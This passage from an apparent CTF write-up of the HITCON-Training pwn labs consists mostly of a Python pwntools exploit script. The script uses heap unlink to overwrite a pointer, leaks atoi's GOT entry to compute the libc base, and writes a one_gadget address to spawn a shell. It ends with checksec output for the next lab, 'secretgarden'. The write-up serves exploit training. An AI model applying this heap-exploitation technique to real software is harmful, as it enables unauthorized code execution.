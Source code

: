 ```python
	p.recvuntil("name:")
	p.sendline(str(size))
	p.recvuntil("item:")
	p.send(name)
itemlist = 0x6020c0
one_gadget = 0xf02a4

ptr = itemlist + 0x8
add(0x80, "a" * 0x10)
add(0x10, "b" * 0x10)
add(0x80, "c" * 0x10)
payload = p64(0) + p64(0x61) + p64(ptr - 0x18) + p64(ptr - 0x10)
payload += (0x60 - 0x20) * "a" + p64(0x60)
edit(0, len(payload), payload)

payload = "b" * 0x10 + p64(0xa0) + p64(0x90)
edit(1, len(payload), payload)

free(2)

atoi_got = elf.got['atoi']
# now ptr = 0x6020b0
payload = p64(0) * 2
payload += p64(0) + p64(atoi_got)
edit(0, len(payload), payload)

show(0)
addr = u64(p.recvuntil("\x7f")[-6:].ljust(8,"\x00"))

libc.address = addr - libc.symbols['atoi']
system = libc.symbols['system']

payload = p64(one_gadget + libc.address)
edit(0, len(payload), payload)

p.recvuntil(":")
p.sendline("any")
p.interactive()	
```

## Lab12——secretgarden ##

### 防护 ###

和Lab11类似，也没有开启pie。

```
liwc@ubuntu:~/pwn/HITCON-Training/LAB/lab12$ checksec secretgarden
[*] '/home/liwc/pwn/HITCON-Training/LAB/lab12/secretgarden'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```
